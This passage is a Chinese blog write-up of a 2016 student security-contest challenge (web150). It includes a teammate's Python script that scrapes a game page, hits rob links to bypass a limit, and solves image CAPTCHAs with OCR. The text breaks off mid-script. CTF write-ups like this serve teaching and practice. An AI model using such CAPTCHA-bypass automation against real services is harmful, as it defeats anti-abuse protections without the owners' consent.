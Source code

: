 ```yaml
---
title: 信息安全国赛技能赛 Writeup
date: 2016-07-12 13:42:28
tags:
- Blogs
- ctf
- access
- 伪协议
- sqli
categories:
- Blogs
---
```

周末在北京wooyun峰会的旅途上打了一场大学生信息安全的国赛的技能赛，本以为能进的决赛，却因为人手不够再加上个人水平太差错过了，虽然i春秋的平台一股浓浓的国产页游风，但不得不说，题目的质量确实不算差，稍微整理下wp...




# WEB #

## web150 脚本抢金币 ##

150这题没什么可说，由于验证码比较弱，所以上网找个识别验证码的再写个脚本就好了，贴上队友的脚本

```
#!/usr/bin/env python2
# coding: utf-8

from bs4 import BeautifulSoup
from PIL import Image
import pytesseract
import requests

url = "http://106.75.30.59:8888/game.php"
cookies = dict(PHPSESSID="2cr00id1lh76jgskh4ddlr15m1")

r = requests.get(url, cookies=cookies)
raw_content = r.content
# print raw_content

soup = BeautifulSoup(raw_content, "html5lib")
raw_tr = soup.find_all('tr')
# raw_a_tag = raw_a_tag[1:21]
raw_tr = raw_tr[1:21]

for i in xrange(1,200):
    for tr in raw_tr:
        name = tr.find_all('td')[1].get_text()
        robid = tr.find_all('a')[0].get('href')

        # bypass limit
        url = "http://106.75.30.59:8888/" + robid[2:]
        requests.get(url, cookies=cookies)

        # get code
        url = "http://106.75.30.59:8888/code.php"
        code = requests.get(url, cookies=cookies)
        with open("code.png", "wb") as ff:
            ff.write(code.content)
        img = Image.open("code.png")
        code_string = pytesseract.image_to_string(img)

```